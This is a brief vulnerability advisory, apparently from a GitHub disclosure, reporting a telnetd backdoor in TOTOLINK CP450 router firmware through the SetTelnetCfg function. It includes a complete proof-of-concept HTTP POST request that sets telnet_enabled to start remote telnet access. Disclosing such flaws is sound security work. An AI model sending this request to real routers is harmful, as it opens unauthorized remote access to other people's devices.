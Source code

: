 ## CP450 backdoor for telnetd

### Overview

* Vendor: TOTOLINK

* Product: CP450
* Version: TOTOLINK_C8B193C-1H_CP450_CP0017_8881A_SPI_8M64M_V4.1.0cu.747_B20191224_ALL.web

* Manufacturer's address：https://www.totolink.net/
* Firmware download address ：https://www.totolink.net/data/upload/20200414/2254ce90058da1a549566852c86031db.zip

### Vulnerability details

In `SetTelnetCfg` function，attackers can control the parameter`telnet_enabled` to launch telnetd service.

![image-20240421163827190](./img/1.png)

#### PoC

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.254
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: application/json, text/javascript, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 70
Origin: http://192.168.0.254
Connection: close
Referer: http://192.168.0.254/adm/telnet.asp
Cookie: SESSION_ID=2:1801026000:2

{
    "topicurl":"setting/setTelnetCfg",
    "telnet_enabled":"1"
}
```

